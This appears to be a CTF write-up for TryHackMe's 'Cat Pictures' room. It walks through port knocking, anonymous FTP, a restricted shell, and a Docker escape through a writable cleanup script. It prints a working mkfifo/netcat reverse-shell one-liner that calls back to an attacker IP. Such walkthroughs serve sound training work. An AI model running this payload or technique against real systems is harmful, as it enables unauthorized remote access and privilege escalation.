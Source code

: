 # Cat Pictures CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Cat Pictures** CTF challenge on [TryHackMe](https://tryhackme.com/room/catpictures). 
---

after scannig we see open ports: 22, 4420, 8080

![scn](imgs/scn.png "scn")

on port 4420 we see some text about internal shell so might need nc to connect to it 

![44](imgs/44.png "44")

using `nc $IP 4420` to connect to port 4420

![sh](imgs/sh.png "sh")

we need some password to proceed

on port 8080 we see some fourm with 1 post

![fr](imgs/fr.png "fr")

after looking at the post we see `magic numbers` that we need to knock into 

![nm](imgs/nm.png "nm")

we can use 

```
knock $IP 1111 2222 3333 4444
```

![kn](imgs/kn.png "kn")

after knocking we see additional ftp port 21

we can login to ftp as anonymous and we can grab a note.txt file

![ft](imgs/ft.png "ft")

from the note we found a password do shell on port 4420

![lg](imgs/lg.png "lg")

we dont have real shell but we can run few commands

![cmds](imgs/cmds.png "cmds")

by looking into /home directory we found some executable but we need better shell

![hm](imgs/hm.png "hm")

![sc](imgs/sc.png "sc")

we can use this reverse shell payload 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.X.X 4444 >/tmp/f
```

now we can run this script, we need another password

![bs](imgs/bs.png "bs")

we can use nc to send the file to analyze it

by looking at the output of strings commands on the file we see some string that might be a password

![str](imgs/str.png "str")

now we can run the script to get the ssh private key

![ss](imgs/ss.png "ss")

![id](imgs/id.png "id")

we can login as catlover via ssh

weird we login as catlover but already got root flag, we are in docker container

![f1](imgs/f1.png "f1")

![dc](imgs/dc.png "dc")

we see command history in .bash_history, we see /opt/clean/clean.sh so it might be our escape route

![hs](imgs/hs.png "hs")

we add reverse shell to /opt/clean/clean.sh and then we wait for hit

![rss](imgs/rss.png "rss")

we got hit with shell and we can grab seconde flag

![f2](imgs/f2.png "f2")

# MACHINE PWNED

